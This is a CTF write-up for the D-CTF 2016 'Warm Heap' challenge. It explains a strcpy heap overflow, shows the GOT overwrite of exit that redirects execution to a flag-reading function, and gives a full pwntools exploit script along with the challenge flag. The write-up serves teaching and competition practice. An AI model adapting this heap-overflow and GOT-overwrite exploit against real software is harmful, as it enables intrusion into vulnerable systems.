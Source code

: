 ```yaml
---
title: 'D-CTF Qualifiers 2016: Warm Heap (Exploit 100)'
date: 2016-09-25 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/pwntools
- tool/ltrace
layout: post
author: f0rki
---
```


* **Category:** Exploit
* **Points:** 100
* **Description:**

> 10.13.37.21:1337
> https://dctf.def.camp/quals-2016/exp100.bin

## Write-up

This is a pretty straight forward heap based buffer overflow. It's pretty easy
to reverse the main function and we can see the rather obvious `strcpy` buffer
overflows. I wrote the main function down in pseudo-C:

```
struct foo {
    int64 count;
    void* ptr;
};

struct foo* a = malloc(16); // rbp-0x1020
a.count = 1;
a.ptr = malloc(8);
struct foo* b = malloc(16); // rbp-0x1018
b.count = 2;
b.ptr = malloc(8);

char buf[0x1000];

fgets(buf, 0x1000, stdin);
strcpy(a.ptr, buf);
fgets(buf, 0x1000, stdin);
strcpy(b.ptr, buf);
exit();
```

The first version of the binary was by accident hardened with `FORTIFY_SOURCE`
so the `strcpy` where `__strcpy_chk` calls with a limit of 8.
Fortunately they fixed that pretty soon, although I lost some time looking at
the non-exploitable version.

Since this is a heap based overflow I like to gain a quick overview of the
allocations by using `ltrace -e 'malloc+free'`, e.g.:

```
malloc(16)             = 0x8d6010
malloc(8)              = 0x8d6030
malloc(16)             = 0x8d6050
malloc(8)              = 0x8d6070
```

So we can see that `b.ptr` is allocated `0x20` bytes before `b` and `b.ptr` is
used as the target of the second `strcpy`. We can abuse this to overwrite and
arbitrary address, with data we supply. To redirect control flow we need a code
pointer that is writable, at a fixed address to bypass ASLR and is used after
we corrupted it. Fortunatly the `GOT` entry of `exit` fits all those criteria.

1. Use first `strcpy` call to overwrite `b.ptr` with `got.exit`
2. Use second `strcpy` to write an arbitrary address to `got.exit`
3. We control the target of the call to `exit` and redirect to the flag reading
   function at `0x00400826`


Here is the full exploit. I used the debugger and a cyclic pattern to determine
the offset from `a.ptr` to `b`, because I was too lazy to calculate it.

The flag was `DCTF{b94c21ff7531cba35a498cb074918b3e}`


```python
#!/usr/bin/env python

from pwn import *

velf = ELF("./exp100.bin")
# vlibc = ELF("../libc/lib/x86_64-linux-gnu/libc-2.23.so")
# use the ubuntu libs
env = {"LD_LIBRARY_PATH": "../libc/lib/x86_64-linux-gnu/"}
DEBUG = False
# DEBUG = True
if DEBUG:
    vp = process("./exp100.bin", env=env)
    gdb.attach(vp, execute="""
# init-pwndbg
init-peda
# first strcpy
break *0x0040096e
# second strcpy
break *0x004009a6
# exit
break *0x004009b0
""")
else:
    vp = remote("10.13.37.21", 1337)

read_flag_addr = 0x00400826
exit_got_addr = velf.got['exit']

# c = cyclic(0x1000*2, n=8)
# vp.sendline(c[:0x1000])
# vp.sendline(c[0x1000:])
off = cyclic_find("faaaaaaa", n=8)

with context.local(log_level="debug"):
    vp.sendline("A" * off + p64(exit_got_addr))
    vp.sendline(p64(read_flag_addr))
    vp.clean_and_log()

vp.interactive()

vp.close()
```
